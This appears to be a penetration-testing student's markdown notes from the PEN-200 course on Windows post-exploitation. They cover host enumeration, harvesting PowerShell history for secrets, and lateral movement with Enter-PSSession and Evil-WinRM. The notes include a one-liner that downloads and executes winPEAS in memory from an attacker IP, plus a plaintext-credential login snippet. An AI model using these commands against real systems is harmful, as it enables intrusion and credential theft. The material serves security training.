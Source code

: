 # From pen-200 course.  




### Host enumeration

**can be automated with winPEAS.ps1**
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.247/winPEAS.ps1')
```
[winPEAS.ps1 download](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

**Enumeration requirements**

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

<br><br><br>
Get all local users:  Get-LocalUser  
<a name="Get-LocalUser">

Get all local groups: Get-LocalGroup   OR net localgroup  
<a name="Get-LocalGroup">

Gather:  
- systeminfo
- ipconfig /a
- route print
- netstat -ano
- Get-Process
**SHOWS THE POWERSHELL  HISTORY**
- Get-History       
- type (Get-PSReadlineOption).HistorySavePath **this shows all history. Even what Clear-history doesnt clear**
- 
  <br><br>

  Get all installed programs X86:
  ``` powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

  Get all installed programs X64:
  ```powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

### printer spooler enumeration
Check to see if print spooler is running
ls "\dc01\pipe\spoolss"



### Lateral movement techniques  
<br>
- Lateral movement with Enter-PSSession:
  
``` Powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
<br>
- Lateral movement with Evil-winrm(apparently enter-pssession isnt too stable)
[Evil-WinRm github](https://github.com/Hackplayers/evil-winrm)

**WinRm is on port 5985**

<img width="835" height="725" alt="image" src="https://github.com/user-attachments/assets/13bc6534-e9d7-49a6-8c61-a06f995ea0cb" />



- 


  
